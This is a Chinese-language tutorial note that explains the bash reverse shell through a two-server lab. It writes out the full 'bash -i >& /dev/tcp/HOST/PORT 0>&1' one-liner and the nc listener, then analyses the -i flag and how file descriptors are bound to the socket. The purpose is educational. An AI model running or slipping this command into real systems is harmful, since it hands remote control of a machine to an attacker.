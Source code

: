 # 反弹Shell引申-bash的socket操作

参考文章

1. [Bash /dev/(tcp|udp)/${HOST}/${PORT} 分析](https://www.jianshu.com/p/80d6b5a61372)

2. [linux shell 脚本实现tcp/upd协议通讯（重定向应用）](https://www.cnblogs.com/chengmo/archive/2010/10/22/1858302.html)

本来以为bash没有 socket 操作的接口的, 没想到一次反弹shell攻击发现了这样的功能...

## 1. 示例场景

服务器A: 192.168.7.13
服务器B: 192.168.7.14

A使用`nc`监听8080端口, 模拟黑帽子的控制机.

```console
[root@k8s-master-7-13 ~]# nc -l 0.0.0.0 8080
## 这里开始阻塞
```

然后B发起反弹Shell连接, 模拟被挂马的内网服务器.

```
[root@k8s-master-7-14 ~]# bash -i >& /dev/tcp/192.168.7.13/8080 0>&1
## 这里也开始阻塞
```

然后A的bash发生变化.

```
[root@k8s-master-7-13 ~]# nc -l 0.0.0.0 8080
[root@k8s-master-7-14 ~]# ls                 ## 输入命令
ls                                           ## 注意输入命令也被当作结果返回
kubeadm-config.yaml
```

可以看到A的终端已经变成了B的界面, 现在黑帽子可以自由的操作B机器了, 当黑帽子输入exit从A机器上的B终端退出时, B机器上的反弹Shell才会结束.

## 2. 分析`-i`的作用

`bash -i`表示打开一个交互式(interactive)终端, 与创建的socket的进行通信.

尝试把`-i`选项移除, 重新测试, 变化在于反弹shell连接上控制机后, 终端提示符没有改变.

```
[root@k8s-master-7-13 ~]# nc -l 0.0.0.0 8080
## 这里开始阻塞, 反弹Shell连接后没有变化
ls                                           ## 输入命令
kubeadm-config.yaml                          ## 返回结果
```

除了这个, 还有一点需要注意: 加了`-i`的反弹Shell输出的命令也被当前结果返回了, 移除后则不会.

可以猜测, `-i`选项可以将主控机A到被控机B的标准输入也返回.

> 在主控机A的B终端上按Ctrl+C退出时, 反弹Shell进程也退出了.

## 3. 分析文件描述符

符号`>&`可以复制一个输出描述符(其实是剪切), 该符号前没有字符, 表示将调用方控制台的标准输出, 定向到打开的socket的标准输出中.

但是这里这个符号有一点特殊的涵义, 就是bash不能什么都不干就打开一个socket连接.

```
[root@k8s-master-7-14 ~]# bash -i /dev/tcp/192.168.7.13/8080
bash: /dev/tcp/192.168.7.13/8080: 没有那个文件或目录
```

正确操作起码要将socket打开为文件描述符才行, 比如`<>`和`>&`, 这个可看一下使用`exec`操作文件描述符的相关文章.

不考虑`<&`, 因为根本无法运行.

```
[root@k8s-master-7-14 ~]# bash <& /dev/tcp/192.168.7.13/8080
-bash: /dev/tcp/192.168.7.13/8080: 模糊的重定向
```

至于`<>`的作用, 还没有头绪, 先看看`>&`的分析吧, 还是比较有把握的.

主控机A

```
[root@k8s-master-7-13 ~]# nc -l 0.0.0.0 8080
## 阻塞, 等待输入命令
```

被控机B

```
[root@k8s-master-7-14 ~]# bash >& /dev/tcp/192.168.7.13/8080
## 阻塞
```

在被控机B上执行如下命令得到反弹Shell的pid, 并查看其相关的fd

```
[root@k8s-master-7-14 fd]# netstat -nap | grep 8080
tcp        0      0 192.168.7.14:59348      192.168.7.13:8080       ESTABLISHED 10738/bash
[root@k8s-master-7-14 fd]# cd /proc/10738/fd
[root@k8s-master-7-14 fd]# ll
总用量 0
lrwx------ 1 root root 64 9月   6 16:49 0 -> /dev/pts/0
lrwx------ 1 root root 64 9月   6 16:49 1 -> socket:[43335381]
lrwx------ 1 root root 64 9月   6 16:49 2 -> socket:[43335381]
```

可以看到, 该bash的标准输入没有改变, 但是其标准输出和标准错误都绑定到了打开的socket上. 

于是, 主控机A上输入的任何命令都不会得到回应, 因为socket与被控机B没有联系. 而在被控机B的终端上输入命令, 可以在A的终端上看到结果, 这是可以理解的.

在关于`exec`操作文件描述符的相关文章里提到, `>&`是用来复制(剪切)文件描述符的, 这里`>&`前面没有数值, 所以这句就是将该bash进程的标准输出与打开的socket绑定, 于是就有了上面的结果.

加上`0>&1`的目的就是为了能让该bash的标准输入也和socket绑定, 这样该bash进程就可以得到来自该socket的命令并向其写入结果了.
